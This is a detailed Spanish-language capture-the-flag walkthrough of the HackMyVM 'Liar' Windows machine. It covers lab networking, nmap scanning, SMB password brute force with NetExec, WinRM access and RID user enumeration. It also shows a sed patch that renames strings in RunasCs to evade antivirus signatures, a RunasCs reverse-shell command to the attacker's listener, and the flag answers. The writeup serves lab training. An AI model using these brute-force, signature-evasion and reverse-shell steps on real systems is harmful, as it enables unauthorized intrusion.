




# HackMyVM – Liar (Writeup detallado)

## 1. Introducción

En esta máquina vamos a trabajar sobre un escenario **Windows** en el que la cadena de ataque gira alrededor de varios puntos muy claros:

- **Enumeración de red en entorno local**
- **Identificación de la máquina víctima por OUI/MAC**
- **Reconocimiento de servicios Windows típicos**
- **Ataque de credenciales sobre SMB**
- **Acceso remoto por WinRM**
- **Enumeración de usuarios y grupos**
- **Uso de `runas` / RunasCs para ejecutar procesos como otro usuario**
- **Abuso de un usuario que pertenece al grupo de administradores**
- **Obtención de la root flag**

En este writeup voy a dejarlo todo **muy explicado**, sin abreviar pasos y añadiendo el razonamiento detrás de cada decisión.

---

## 2. Problema inicial al importar la máquina en VMware

Al intentar importar la máquina **Liar** en VMware aparece el siguiente error:



Ese error indica que VMware no está interpretando correctamente ciertos elementos del descriptor OVF/OVA, como por ejemplo:

- `Caption`
- `Description`
- `InstanceID`
- `ResourceType`
- `VirtualQuantity`
- `AutomaticAllocation`
- `HostResource`
- `Parent`

En otras palabras: **la máquina no se deja importar correctamente en VMware** con este paquete tal como está exportado.

### ¿Qué implica esto?

Implica que, aunque nuestra Kali esté en VMware, la máquina víctima **Liar** la hemos tenido que abrir en **VirtualBox**.

Eso crea un problema práctico: ahora tenemos dos hipervisores distintos:

- **Kali** en VMware
- **Liar** en VirtualBox

Y ambas máquinas tienen que verse entre sí en red.

---

## 3. Solución: adaptar la red para que VMware y VirtualBox compartan el mismo segmento

Como no podemos tener ambas máquinas dentro del mismo hipervisor, hemos optado por conectarlas a la **misma red física** usando **modo puente (bridged)**.

La idea de fondo es esta:

- Si ambas VMs usan una **red privada interna distinta**, no se van a ver.
- Si ambas salen en **modo puente a la misma interfaz física del host**, recibirán una IP dentro de la misma red doméstica / LAN y podrán comunicarse.

---

## 4. Configuración de red en VirtualBox

Primero vamos a **VirtualBox**, importamos la máquina, la seleccionamos y configuramos:

**Configuración > Red > Adaptador 1 > Conectado a: Adaptador puente**

Y en **Nombre** seleccionamos la interfaz de red física mostrada en la imagen:


### ¿Por qué elegimos exactamente esa interfaz?

Porque esa es la **tarjeta de red física real** por la que tu host Windows está conectado a Internet y a tu red local:

**MediaTek Wi‑Fi 6 MT7921 Wireless LAN Card**

Eso significa que:

- tu host Windows está usando esa tarjeta Wi‑Fi
- esa tarjeta está conectada a tu router
- esa tarjeta es la puerta real hacia la red `192.168.1.0/24`

Si eligieras otra interfaz incorrecta, por ejemplo:

- una interfaz virtual,
- una interfaz desconectada,
- una VPN,
- una interfaz de VMware interna,

la VM de VirtualBox no saldría a la misma red donde luego estará Kali.

### Qué hace el modo puente en VirtualBox

El modo puente hace que la máquina virtual se comporte **como si fuera otro dispositivo físico más de tu red local**.

Es decir:

- la VM tendrá su propia IP en la LAN,
- aparecerá como un equipo independiente ante el router,
- y podrá ser descubierta por otros dispositivos de esa misma red.

---

## 5. Configuración en VMware: mismo puente hacia la misma interfaz física

Ahora configuramos la Kali en VMware para que use **exactamente la misma interfaz física**.

Vamos a:

**VMware > Editar > Editor de red virtual > Información de VMnet > En puente**

Y seleccionamos la misma tarjeta Wi‑Fi:



### ¿Por qué esto es importante?

Porque si:

- VirtualBox sale por la **MediaTek Wi‑Fi**
- y VMware sale por otra interfaz distinta

entonces las dos máquinas pueden quedar en redes diferentes o en contextos distintos.

Lo que queremos es que ambas salgan por **la misma NIC física** del host.

Así conseguimos que:

- Kali (VMware)
- Liar (VirtualBox)

queden ambas dentro de la **misma red real de casa**.

---

## 6. Configuración final de la Kali en VMware

Además, dentro de la propia configuración de la máquina Kali en VMware, ajustamos:

**Configuración > Adaptador de red > Conexión de red > Conexión en puente**



### ¿Qué diferencia hay entre esto y el VMnet Editor?

El **VMnet Editor** define **qué interfaz física usa VMware para el puente**.

La configuración del **adaptador de la VM** define **si esa VM concreta usa NAT, Host-Only o Bridge**.

Necesitamos ambas cosas:

1. que VMware sepa a qué NIC física puentear,
2. y que la Kali esté configurada para usar **ese puente**.

---

## 7. Efecto inmediato: Kali cambia de IP

Al aplicar ese cambio, la Kali se desconecta momentáneamente de la red y vuelve a pedir una IP, esta vez ya dentro de la red física doméstica.

Al ejecutar `ip a` vemos algo así:



La IP relevante es:

```bash
inet 192.168.1.42/24
```

### ¿Por qué cambia la IP?

Antes, cuando Kali estaba en una red virtual privada de VMware, la IP pertenecía a ese segmento virtual.

Ahora, al salir por puente:

- quien le asigna la IP es el **router real**
- igual que lo haría con un portátil, una TV o un móvil

Por eso ahora Kali aparece como otro equipo más de la red `192.168.1.0/24`.

---

## 8. Preparación del directorio de trabajo

Creamos una carpeta específica para trabajar esta máquina:

```bash
cd ~/Desktop
cd HackMyVM
mkdir Liar
cd Liar
```

Quedamos en:

```bash
~/Desktop/HackMyVM/Liar
```

Esto es buena práctica porque mantiene:

- escaneos
- diccionarios
- binarios
- notas
- resultados

 todo aislado por máquina.

---

## 9. Descubrimiento de la IP de la víctima

Ahora que ambas máquinas están en la misma red, hacemos un descubrimiento de hosts:

```bash
sudo nmap -n -sn 192.168.1.42/24
```

### Explicación detallada de las flags

- `sudo`  
  Necesario para ciertos tipos de escaneo de red con permisos completos.

- `nmap`  
  Herramienta de descubrimiento y auditoría de red.

- `-n`  
  Le dice a Nmap que **no resuelva DNS**.  
  Así evita retrasos intentando traducir IPs a nombres.

- `-sn`  
  “Ping scan”.  
  No hace escaneo de puertos; solo comprueba qué hosts están vivos.

- `192.168.1.42/24`  
  Rango de red a escanear.  
  El `/24` equivale a explorar la red `192.168.1.0 - 192.168.1.255`.

### Resultado

Aparecen muchas IPs activas, entre ellas:

- router
- dispositivos del hogar
- Kali
- otros equipos
- y la máquina víctima

### ¿Por qué ahora aparecen muchas IPs?

Porque en **modo puente** tu VM ya no está en una red aislada del hipervisor.  
Está dentro de tu **red física real**, en este caso tu Wi‑Fi doméstica.

Eso significa que al escanear `192.168.1.0/24` ves todos los dispositivos que están conectados a esa misma red:

- router
- móviles
- Smart TV
- otros PCs
- tu propia Kali
- y la VM víctima

Antes, cuando trabajábamos en redes privadas de VMware, solían aparecer máquinas del fabricante VMware porque todo estaba encapsulado en un entorno virtual cerrado.

Aquí no.

Aquí estamos viendo **la red de casa de verdad**.

---

## 10. Identificación de la víctima por la MAC

Entre todas las IPs encontradas, la que nos interesa es esta:

```text
192.168.1.44
MAC Address: 08:00:27:7D:59:C6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

### ¿Por qué sabemos que esa es la víctima?

Porque el prefijo MAC:

```text
08:00:27
```

corresponde a **Oracle VirtualBox**.

### OUI y prefijo MAC

Los primeros 3 bytes de una MAC corresponden al **OUI**  
(**Organizationally Unique Identifier**), que identifica al fabricante de la tarjeta de red.

Ejemplos:

- `08:00:27` → VirtualBox
- `00:0C:29` → VMware
- `3C:BD:3E` → Xiaomi
- `48:E7:DA` → AzureWave

Como la máquina víctima está corriendo en **VirtualBox**, la entrada con OUI de VirtualBox es la candidata correcta.

### Resumen de la interpretación

- `192.168.1.42` → Kali
- `192.168.1.1` → router
- otras IPs → dispositivos domésticos
- `192.168.1.44` → máquina VirtualBox = víctima

---

## 11. Escaneo completo de puertos

Una vez identificada la víctima, hacemos el escaneo fuerte:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.44
```

### Explicación detallada de cada flag

- `sudo`  
  Permisos completos para el escaneo.

- `nmap`  
  Herramienta de auditoría de puertos y servicios.

- `-p-`  
  Escanea **todos los puertos TCP**, del `1` al `65535`.

- `--open`  
  Muestra solo puertos **abiertos**.

- `-sC`  
  Lanza los **scripts por defecto** de Nmap NSE.  
  Sirve para obtener información adicional útil.

- `-sV`  
  Intenta detectar la **versión del servicio** que corre en cada puerto.

- `-Pn`  
  Trata al host como activo sin hacer comprobación previa de ping.  
  Muy útil cuando un host filtra ICMP.

- `-T5`  
  Timing agresivo.  
  Más rápido, más ruidoso.  
  En laboratorio suele usarse; en entorno real hay que tener más cuidado.

- `-vvv`  
  Mucha verbosidad.  
  Muestra más detalle durante el escaneo.

- `-oN fullscan`  
  Guarda la salida en formato normal en un archivo llamado `fullscan`.

### Resultado

```text
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
```

---

## 12. Por qué esto nos dice que es Windows

Hay dos pistas claras:

### 1. TTL = 128

Los sistemas Windows suelen iniciar paquetes con TTL 128.

### 2. Servicios muy típicos de Windows

- RPC
- NetBIOS
- SMB
- WinRM
- IIS

Esa combinación es muy característica de una máquina Windows.

---

## 13. Explicación en detalle de los puertos encontrados

### Puerto 80 → HTTP / IIS

```text
80/tcp open http Microsoft IIS httpd 10.0
```

Aquí hay un servidor web de Microsoft:

**IIS = Internet Information Services**

Es el servidor web nativo de Windows, equivalente a:

- Apache
- Nginx

Se usa para:

- alojar páginas web
- exponer APIs
- paneles administrativos
- aplicaciones .NET
- aplicaciones ASP / ASPX

La versión `IIS 10.0` suele verse en:

- Windows 10
- Windows Server 2016
- Windows Server 2019

---

### Puerto 135 → RPC Endpoint Mapper

```text
135/tcp open msrpc Microsoft Windows RPC
```

**RPC** significa **Remote Procedure Call**.

Sirve para que un programa pueda invocar funciones en otro equipo remoto.

En Windows es la base de muchísimos servicios internos:

- WMI
- DCOM
- administración remota
- servicios del sistema
- gestión de componentes

El puerto 135 funciona como un **mapa inicial**:

1. el cliente contacta con 135
2. pregunta qué servicio RPC quiere usar
3. el sistema responde con un puerto alto dinámico donde vive el servicio real

Por eso luego vemos tantos **49xxx** abiertos.

---

### Puerto 139 → NetBIOS Session Service

```text
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
```

NetBIOS es un sistema antiguo usado por Windows para:

- descubrir máquinas en la LAN
- resolver nombres
- abrir sesiones de red
- compartir recursos

Hoy en día está bastante ligado a SMB antiguo.

Ejemplo conceptual:

```text
\\SERVER\recurso
```

Antes de acceder al recurso, muchas veces intervenía NetBIOS para la parte de descubrimiento y nombres.

---

### Puerto 445 → SMB

```text
445/tcp open microsoft-ds
```

Este puerto es **clave** en Windows.

**SMB = Server Message Block**

Sirve para:

- compartir carpetas
- compartir impresoras
- autenticación en redes Windows
- comunicación con servicios de dominio
- movimiento lateral

Ejemplo:

```text
\\192.168.1.44\Users
```

Eso es SMB.

---

### Puerto 5985 → WinRM

```text
5985/tcp open http Microsoft HTTPAPI httpd 2.0
```

**WinRM = Windows Remote Management**

Es el equivalente más cercano a **SSH en Linux**, pero en entorno Windows.

Permite:

- ejecutar comandos remotamente
- abrir sesiones PowerShell remotas
- administrar servidores
- automatizar tareas

Herramienta muy usada en pentesting:

```bash
evil-winrm -i IP -u usuario -p contraseña
```

Puertos típicos:

- `5985` → HTTP
- `5986` → HTTPS

---

### Puerto 47001 → WinRM / administración remota interna

```text
47001/tcp open http Microsoft HTTPAPI httpd 2.0
```

Este puerto también está relacionado con servicios de gestión remota de Windows.

Aparece con frecuencia en sistemas modernos y suele ir ligado a:

- administración remota
- PowerShell remoting
- servicios internos de Windows

---

### Puertos 49664–49679 → RPC dinámico

Estos puertos altos:

- 49664
- 49665
- 49666
- 49667
- 49668
- 49679

aparecen todos como:

```text
msrpc Microsoft Windows RPC
```

Eso es completamente normal.

Cuando servicios RPC arrancan:

1. se registran en el puerto 135
2. Windows les asigna un puerto dinámico alto
3. los clientes terminan hablando con esos puertos altos

Por eso en Windows es muy habitual ver varios puertos 49xxx abiertos.

---

## 14. Diferencia entre NetBIOS, SMB, RPC y WinRM

Esto suele confundir bastante, así que lo dejo bien separado.

### NetBIOS
Sirve principalmente para:

- nombres de equipos
- descubrimiento en red
- sesiones antiguas en redes LAN

### SMB
Sirve para:

- compartir archivos
- compartir impresoras
- autenticación y recursos compartidos

### RPC
Sirve para:

- ejecutar funciones o servicios remotos
- WMI
- DCOM
- muchos servicios internos de Windows

### WinRM
Sirve para:

- administración remota completa
- abrir sesiones remotas
- ejecutar comandos
- PowerShell remoting

### Relación conceptual

Un administrador remoto puede hacer algo así:

- WinRM → abre la sesión
- RPC → interactúa con servicios internos
- SMB → transfiere archivos

---

## 15. Primera pista en el puerto 80

Visitamos:

```text
http://192.168.1.44/
```

Y aparece el mensaje:

> Hey bro, You asked for an easy Windows VM, enjoy it. - nica

### Qué sacamos de aquí

Nos deja una pista muy clara:

**nica**

Eso parece un **nombre de usuario**.

En entornos Windows, cuando ves un nombre así incrustado en una web simple, suele merecer la pena probarlo como:

- usuario local
- usuario SMB
- usuario WinRM

---

## 16. Ataque de credenciales con NetExec

Vamos a usar **NetExec** (antes CrackMapExec), una herramienta muy común para redes Windows.

### Qué es NetExec

NetExec sirve para:

- probar credenciales
- enumerar shares SMB
- enumerar usuarios
- ejecutar comandos
- comprobar acceso administrativo
- movimiento lateral

Se usa mucho con protocolos como:

- SMB
- WinRM
- RDP
- LDAP

---

## 17. Primer intento fallido con RockYou completa

Probamos:

```bash
nxc smb 192.168.1.44 -u nica -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

### Explicación de las flags

- `nxc`  
  Comando de NetExec.

- `smb`  
  Indica que vamos a atacar el servicio SMB.

- `192.168.1.44`  
  IP del objetivo.

- `-u nica`  
  Usuario a probar.

- `-p /usr/share/wordlists/rockyou.txt`  
  Lista de contraseñas.  
  NetExec irá probando una a una.

- `--ignore-pw-decoding`  
  Evita ciertos problemas de interpretación/decodificación de contraseñas del wordlist.

### Resultado

El proceso muere con:

```text
zsh: killed
```

### Qué significa eso

No lo ha matado la máquina víctima.  
Lo ha matado **tu Linux**.

La causa es casi seguro el **OOM Killer**:

**Out Of Memory Killer**

Linux detecta que un proceso consume demasiada RAM y lo mata para evitar que el sistema entero se bloquee.

Lo confirmamos con:

```bash
dmesg | tail
```

y aparece algo como:

```text
Out of memory: Killed process ... task=nxc
```

Eso confirma que NetExec, procesando RockYou completa, consumió demasiada memoria.

---

## 18. Solución: usar un diccionario más pequeño

Creamos una lista recortada:

```bash
head -10000 /usr/share/wordlists/rockyou.txt > small.txt
```

### Explicación de este comando

- `head`  
  Muestra las primeras líneas de un archivo.

- `-10000`  
  Queremos las primeras 10.000 líneas.

- `/usr/share/wordlists/rockyou.txt`  
  Archivo original.

- `>`  
  Redirige la salida a otro archivo.

- `small.txt`  
  Nuevo diccionario pequeño.

Con esto obtenemos un wordlist manejable para el sistema.

---

## 19. Fuerza bruta SMB con lista pequeña

Ahora sí:

```bash
nxc smb 192.168.1.44 -u nica -p small.txt
```

### Flags

- `nxc smb` → protocolo SMB
- `192.168.1.44` → objetivo
- `-u nica` → usuario
- `-p small.txt` → lista de contraseñas

### Resultado

Aparece la credencial válida:

```text
nica:hardcore
```

---

## 20. Probamos acceso por WinRM

Como el puerto 5985 está abierto, tiene sentido intentar estas credenciales por WinRM.

```bash
evil-winrm -i 192.168.1.44 -u nica -p hardcore
```

### Explicación de las flags

- `evil-winrm`  
  Cliente WinRM muy usado en pentesting.

- `-i 192.168.1.44`  
  IP del objetivo.

- `-u nica`  
  Usuario.

- `-p hardcore`  
  Contraseña.

### Resultado

Entramos correctamente:

```powershell
whoami
win-iurf14rbvgv\nica
```

Ya tenemos una shell remota PowerShell como el usuario **nica**.

---

## 21. Enumeración inicial del perfil de nica

Listamos contenido de su perfil:

```powershell
ls C:\Users\nica
```

Vemos un archivo:

```text
user.txt
```

Lo leemos:

```powershell
type user.txt
```

Flag obtenida:

```text
HMVWINGIFT
```

La enviamos y aparece la validación correcta:


---

## 22. Sobre `runas` en Windows

Antes de pasar a la root flag, conviene explicar un comando importante:

### Qué es `runas`

`runas` permite ejecutar un programa con las credenciales de otro usuario.

Ejemplo:

```cmd
runas /user:Administrator cmd
```

Esto abriría una consola como Administrator, pidiendo su contraseña.

### Equivalente conceptual en Linux

Se parece a:

```bash
sudo -u usuario comando
```

aunque no funciona igual internamente, pero conceptualmente sirve para “lanzar algo como otro usuario”.

---

## 23. Intento de usar WinPEAS

Desde Kali, aprovechamos que Evil-WinRM permite subir archivos directamente.

Nos movemos al directorio donde está WinPEAS:

```bash
cd /usr/share/peass/winpeas
evil-winrm -i 192.168.1.44 -u nica -p hardcore
```

Y subimos:

```powershell
upload winPEASany.exe
```

Se sube correctamente a:

```text
C:\Users\Public\winPEASany.exe
```

### Observación importante

Aunque el archivo se sube bien, en esta máquina **no conseguimos ejecutarlo** desde las rutas intentadas.

Eso hace que tengamos que pivotar a otra estrategia: **enumerar usuarios y credenciales**.

---

## 24. Enumeración de usuarios con RID brute force

Probamos con NetExec:

```bash
nxc smb 192.168.1.44 -u nica -p hardcore --rid-brute
```

### Explicación de las flags

- `nxc smb` → usar SMB
- `192.168.1.44` → objetivo
- `-u nica` → usuario conocido válido
- `-p hardcore` → contraseña válida
- `--rid-brute` → intenta enumerar cuentas resolviendo RIDs/SIDs

### Qué hace `--rid-brute`

En Windows, cada usuario y grupo tiene un SID.  
El tramo final suele ser el **RID**.

Con este método se prueban RID conocidos o secuenciales para descubrir usuarios y grupos válidos del sistema.

### Resultado

Aparecen, entre otros:

- `Administrador`
- `Invitado`
- `nica`
- `akanksha`
- `Idministritirs`

Ese último nombre raro es muy importante. Luego veremos que en realidad corresponde a un grupo privilegiado.

---

## 25. Enumeración de usuarios desde dentro con `net user`

También desde la propia sesión WinRM:

```powershell
net user
```

Aparecen:

- Administrador
- akanksha
- DefaultAccount
- Invitado
- nica
- WDAGUtilityAccount

Esto confirma que **akanksha** existe como usuario local.

---

## 26. Fuerza bruta sobre akanksha

Ahora repetimos la misma técnica que con nica:

```bash
nxc smb 192.168.1.44 -u akanksha -p small.txt
```

Y encontramos:

```text
akanksha:sweetgirl
```

### Por qué probamos con akanksha y no con Administrator

Porque:

- Administrator suele ser más difícil
- Invitado suele tener menos privilegios
- akanksha parece un usuario real adicional
- ya vimos que nica no tiene demasiado poder

Así que akanksha es el siguiente candidato lógico.

---

## 27. Intento de WinRM con akanksha

Probamos:

```bash
evil-winrm -i 192.168.1.44 -u akanksha -p sweetgirl
```

Pero devuelve:

```text
WinRMAuthorizationError
```

### Qué significa esto

No significa que la contraseña sea incorrecta.

Significa que:

- las credenciales son válidas,
- pero ese usuario **no tiene permiso para acceder por WinRM**.

Esto suele ocurrir cuando el usuario **no pertenece al grupo adecuado** para administración remota.

---

## 28. Privilegios del usuario nica

Dentro de la sesión WinRM como nica:

```powershell
whoami /priv
```

Resultado:

- `SeChangeNotifyPrivilege`
- `SeIncreaseWorkingSetPrivilege`

### Explicación

#### `SeChangeNotifyPrivilege`
Permite omitir ciertas comprobaciones de recorrido de carpetas.

Es un privilegio muy común.  
No suele servir para escalar privilegios directamente.

#### `SeIncreaseWorkingSetPrivilege`
Permite ajustar el espacio de trabajo de procesos.

Tampoco es un privilegio típico de escalada útil por sí mismo.

### Conclusión

Con esos privilegios, **nica no tiene una vía directa de escalada**.

---

## 29. Información completa del token de nica

Ejecutamos:

```powershell
whoami /all
```

Esto muestra:

- usuario
- SID
- grupos
- privilegios
- nivel de integridad

### Grupo importante detectado

Entre los grupos aparece:

```text
BUILTIN\Usuarios de administración remota
```

Ese grupo equivale a **Remote Management Users**.

### Por qué esto es importante

Ese grupo es precisamente el que permite a un usuario acceder por WinRM.

Por eso **nica sí puede usar WinRM**.

Y por eso **akanksha no puede**, aunque tenga credenciales válidas.

---

## 30. Explicación de grupos relevantes en Windows

### `BUILTIN\Usuarios`
Grupo básico de usuarios normales.

### `BUILTIN\Usuarios de administración remota`
Permite usar ciertas herramientas de administración remota, entre ellas WinRM.

### `NT AUTHORITY\Authenticated Users`
Todos los usuarios autenticados.

### `NT AUTHORITY\NETWORK`
Token asociado a conexiones de red.

### `NT AUTHORITY\Cuenta local`
Indica que la autenticación es local.

### `NT AUTHORITY\NTLM Authentication`
Autenticación vía NTLM.

### `Etiqueta obligatoria\Nivel obligatorio medio`
Nivel de integridad medio.  
Típico de un usuario no privilegiado.

---

## 31. Uso de RunasCs

Como akanksha no puede entrar por WinRM, pero sí tenemos su contraseña, vamos a usar una herramienta que nos permita **crear un proceso como ese usuario** desde la sesión de nica.

Para ello usamos **RunasCs**.

La descargamos desde su release de GitHub y subimos el binario:

```powershell
upload RunasCs.exe
```

Se sube a:

```text
C:\Users\nica\Documents\RunasCs.exe
```

---

## 32. Problema: RunasCs parece no funcionar

Probamos:

```powershell
.\RunasCs.exe akanksha sweetgirl "cmd /c whoami /all"
```

Pero no obtenemos resultado útil.

### Posible causa

Muy probablemente:

- Windows Defender
- o una protección basada en firmas

está detectando el binario por su nombre o por cadenas internas.

---

## 33. Evasión de firma simple con `sed`

En Kali hacemos:

```bash
sed 's/RunasCs/RunasXs/g' RunasCs.exe > RunasCs_mod.exe
```

### Explicación detallada del comando

- `sed`  
  Stream Editor.  
  Permite buscar y reemplazar texto.

- `'s/RunasCs/RunasXs/g'`  
  Instrucción de sustitución:
  - `s` = substitute
  - busca `RunasCs`
  - reemplaza por `RunasXs`
  - `g` = global, todas las coincidencias

- `RunasCs.exe`  
  Archivo fuente

- `>`  
  Redirección a un nuevo archivo

- `RunasCs_mod.exe`  
  Binario modificado

### Qué estamos haciendo realmente

No estamos arreglando el programa.

Lo que hacemos es romper posibles coincidencias simples de firma antivirus basadas en:

- nombre del binario
- cadenas internas
- metadatos visibles
- firmas estáticas básicas

### Por qué puede seguir funcionando

Porque `RunasCs` y `RunasXs` tienen la misma longitud.

Eso evita desplazar offsets de forma peligrosa dentro del ejecutable.

### Qué tipo de técnica es esta

Esto encaja con:

- **signature evasion**
- **binary patching** simple

---

## 34. Ejecutar `whoami /all` como akanksha

Subimos el binario modificado y ejecutamos:

```powershell
.\RunasCs_mod.exe akanksha sweetgirl "cmd /c whoami /all"
```

### Qué obtenemos

Lo importante no está tanto en los privilegios como en **los grupos**.

Aparece un grupo:

```text
WIN-IURF14RBVGV\Idministritirs
```

Aunque sale raro por el encoding, la interpretación correcta es que ese grupo corresponde al grupo de **Administrators**.

### Conclusión crítica

**akanksha es administrador local**.

Eso cambia completamente el escenario.

Aunque no pueda entrar por WinRM, si logramos ejecutar un proceso como akanksha, ese proceso se ejecutará con su token, y ese token pertenece al grupo de administradores locales.

---

## 35. Privilegios vs grupos en Windows

Esto conviene dejarlo muy claro.

### Grupos
Definen el **rol** del usuario.

Ejemplos:

- Users
- Administrators
- Remote Management Users

### Privilegios
Son permisos técnicos concretos dentro del token.

Ejemplos:

- `SeDebugPrivilege`
- `SeBackupPrivilege`
- `SeImpersonatePrivilege`

### El token de Windows contiene

- identidad del usuario
- grupos
- privilegios
- restricciones
- nivel de integridad

En este caso, la pista fuerte no son los privilegios técnicos mostrados, sino que **akanksha pertenece al grupo de administradores**.

---

## 36. Reverse shell como akanksha con RunasCs

Ponemos listener en Kali con Penelope:

```bash
penelope -p 4444
```

### Qué es Penelope

Penelope es una herramienta para manejar shells de forma más cómoda, especialmente en Windows y Linux.  
Es una alternativa más agradable que un netcat plano, con mejor interacción.

Luego, desde la sesión WinRM como nica, ejecutamos:

```powershell
.\RunasCs_mod.exe akanksha sweetgirl cmd.exe -r 192.168.1.42:4444
```

### Explicación detallada

- `.\RunasCs_mod.exe`  
  Ejecuta el binario modificado.

- `akanksha sweetgirl`  
  Credenciales del usuario destino.

- `cmd.exe`  
  Programa que queremos lanzar.

- `-r 192.168.1.42:4444`  
  Redirige entrada y salida al host remoto, creando una **reverse shell**.

### Qué pasa internamente

1. RunasCs autentica al usuario **akanksha**
2. Windows crea un token de seguridad para ese usuario
3. RunasCs llama a la API:
   `CreateProcessWithLogonW()`
4. Se crea un proceso `cmd.exe` ejecutándose como **akanksha**
5. Con `-r`, la entrada/salida de ese proceso se conecta por socket a Kali
6. Resultado: obtenemos una reverse shell como **akanksha**

---

## 37. Shell obtenida

En Penelope recibimos la conexión y vemos algo similar a:

```text
C:\Windows\system32>
```

Comprobamos:

```cmd
whoami
```

Resultado:

```text
win-iurf14rbvgv\akanksha
```

Ya estamos ejecutando comandos como **akanksha**.

Y recordemos: **akanksha pertenece al grupo de administradores**.

---

## 38. Acceso a la carpeta del Administrador

Ahora nos movemos a:

```cmd
cd C:\Users\Administrador\
dir
```

Y vemos:

```text
root.txt
```

### ¿Por qué ahora sí podemos entrar?

Porque estamos ejecutando como **akanksha**, y ese usuario pertenece al grupo de administradores locales.

Eso le da acceso a directorios protegidos que un usuario normal como nica no tendría.

---

## 39. Root flag

Leemos:

```cmd
type root.txt
```

Resultado:

```text
HMV1STWINDOWZ
```

La enviamos y obtenemos validación correcta:


---

## 40. Resumen técnico del ataque

### Acceso inicial
- Identificación de la IP de la víctima por su OUI VirtualBox
- Escaneo de puertos
- Descubrimiento del usuario **nica** en la web

### Movimiento inicial
- Fuerza bruta SMB sobre `nica`
- Obtención de credenciales:
  `nica:hardcore`

### Acceso remoto
- Uso de WinRM con Evil-WinRM
- Lectura de `user.txt`

### Enumeración lateral
- Enumeración de usuarios con RID brute force
- Descubrimiento de `akanksha`
- Fuerza bruta SMB:
  `akanksha:sweetgirl`

### Restricción detectada
- akanksha no puede entrar por WinRM
- pero sí podemos ejecutar procesos como ese usuario

### Escalada
- Uso de RunasCs modificado
- Validación de que akanksha pertenece a Administrators
- Reverse shell como akanksha
- Acceso a `C:\Users\Administrador`
- Lectura de `root.txt`

---

## 41. Lecciones importantes de esta máquina

### 1. Entender bien el networking importa
Si no entiendes la diferencia entre:

- NAT
- Host-Only
- Bridge

puedes perder mucho tiempo incluso antes de empezar el pentest.

### 2. El OUI/MAC puede identificar la VM víctima
Cuando hay muchos hosts en red puente, fijarte en el fabricante de la MAC ayuda muchísimo.

### 3. Una pista simple en una web puede ser suficiente
El nombre `nica` en la página web fue la clave del acceso inicial.

### 4. No todo usuario válido tiene acceso WinRM
Tener credenciales correctas no implica automáticamente acceso por todos los servicios.

### 5. Los grupos importan más que muchos privilegios listados
En Windows, pertenecer al grupo de administradores suele ser mucho más decisivo que ver un privilegio concreto en `whoami /priv`.

### 6. Defender / firmas simples pueden romper tooling conocido
Modificar cadenas internas de un binario conocido puede bastar para evadir una detección estática sencilla.

---

## 42. Flags

### User flag

```text
HMVWINGIFT
```

### Root flag

```text
HMV1STWINDOWZ
```

---

## 43. Conclusión final

**Liar** es una máquina muy buena para practicar:

- redes en laboratorio mixto VMware + VirtualBox
- reconocimiento Windows
- SMB y WinRM
- enumeración de usuarios
- interpretación de grupos y privilegios
- uso de RunasCs
- escalada basada en credenciales válidas y ejecución como otro usuario

No es una máquina de explotación sofisticada a nivel memory corruption o AD complejo, pero sí es muy útil para consolidar una cadena realista de:

**enumeración → credenciales → acceso remoto → usuario alternativo → privilegios administrativos → flag final**
